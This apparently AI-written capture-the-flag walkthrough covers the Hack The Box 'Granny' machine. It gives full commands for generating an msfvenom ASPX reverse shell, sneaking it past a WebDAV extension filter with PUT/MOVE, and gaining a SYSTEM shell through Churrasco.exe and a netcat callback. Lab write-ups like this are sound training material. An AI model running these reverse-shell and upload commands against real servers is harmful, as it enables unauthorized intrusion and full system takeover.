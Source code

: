 Absolutely! Here’s your clean, markdown-formatted walkthrough for **HTB: Granny**, with all [HTTP](HTTP) references properly hyperlinked and grouped by stage:

---

# 👵 HTB: Granny – Walkthrough

**Machine Info:**
- **IP**: `10.129.83.212`
- **OS**: Windows Server 2003
- **Difficulty**: Easy
- **Exploits Used**:
  - [HTTP](HTTP) WebDAV PUT/MOVE
  - File extension bypass via `.txt → .aspx`
  - Local PrivEsc using `Churrasco.exe`

---

## 🔍 Reconnaissance

### 🔎 Fast Port Scan
```bash
nmap -p- -T5 10.129.83.212
```
Only **port 80 ([HTTP](HTTP))** is open.

### 📌 Service Enumeration
```bash
nmap -p 80 -A 10.129.83.212 -v
```
- **Service**: Microsoft IIS httpd 6.0
- **Extensions**: WebDAV (with support for `PUT`, `MOVE`, `PROPFIND`, etc.)

---

## 🧪 WebDAV Enumeration

### 🛠️ Check WebDAV Methods
```bash
davtest -url http://10.129.83.212
```

Result:
- Can **upload** files (`PUT`)
- Can **rename/move** files (`MOVE`)
- But only `.html` and `.txt` can be **executed**
- **Workaround**: upload `.aspx` as `.txt`, then `MOVE` it back to `.aspx`

[🔗 WebDAV Exploit Reference](https://vk9-sec.com/exploiting-webdav/)

---

## 🚀 Exploitation – Upload Reverse Shell

### 1️⃣ Create ASPX Reverse Shell
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.13 LPORT=4444 -f aspx -o shell.aspx
mv shell.aspx shell.txt
```

### 2️⃣ Upload Using [HTTP](HTTP) `PUT`
```bash
curl -X PUT http://10.129.83.212/shell.txt --data-binary @shell.txt
```

### 3️⃣ Rename Using [HTTP](HTTP) `MOVE`
```bash
curl -X MOVE --header 'Destination:http://10.129.83.212/shell.aspx' http://10.129.83.212/shell.txt
```

### 4️⃣ Start Listener
```bash
nc -nvlp 4444
```

### 5️⃣ Trigger Shell
Visit in browser:
```
http://10.129.83.212/shell.aspx
```

---

## 🐚 Shell Gained
```cmd
whoami
nt authority\network service
```

---

## 🚪 Privilege Escalation – SYSTEM

### 1️⃣ System Info
```cmd
systeminfo
```
- OS: **Windows Server 2003**
- Vulnerable to token impersonation (Churrasco)

### 2️⃣ Download Churrasco
```bash
wget https://github.com/Re4son/Churrasco/raw/master/churrasco.exe
mv churrasco.exe churrasco.txt
```

### 3️⃣ Upload via [HTTP](HTTP)
```bash
curl -X PUT http://10.129.83.212/churrasco.txt --data-binary @churrasco.txt
```

### 4️⃣ Rename in Shell
```cmd
ren churrasco.txt churrasco.exe
```

### 5️⃣ Upload `nc.exe`
```bash
cp /usr/share/windows-resources/binaries/nc.exe ~/Desktop
mv nc.exe nc.txt
curl -X PUT http://10.129.83.212/nc.txt --data-binary @nc.txt
ren nc.txt nc.exe
```

---

## 💥 SYSTEM Shell

### 1️⃣ Listener
```bash
nc -nvlp 5555
```

### 2️⃣ Execute Reverse Shell
```cmd
churrasco.exe -d "C:\Inetpub\wwwroot\nc.exe -e cmd.exe 10.10.14.13 5555"
```

---

## 🎯 Proof

### 🧍‍♂️ User Flag
```cmd
type C:\Documents and Settings\lakis\Desktop\user.txt
```

### 👑 Root Flag
```cmd
type C:\Documents and Settings\Administrator\Desktop\root.txt
```

---

## ✅ Summary

| Phase              | Method                                         |
|-------------------|------------------------------------------------|
| Recon              | Found IIS 6.0 with [HTTP](HTTP) WebDAV        |
| Initial Access     | Used PUT/MOVE to bypass extension restriction |
| Privilege Escalation | Token impersonation using `Churrasco.exe` |
| Final Access       | SYSTEM shell via netcat                       |

---

Let me know if you’d like this converted into a downloadable Markdown doc or exported for reporting 💾📄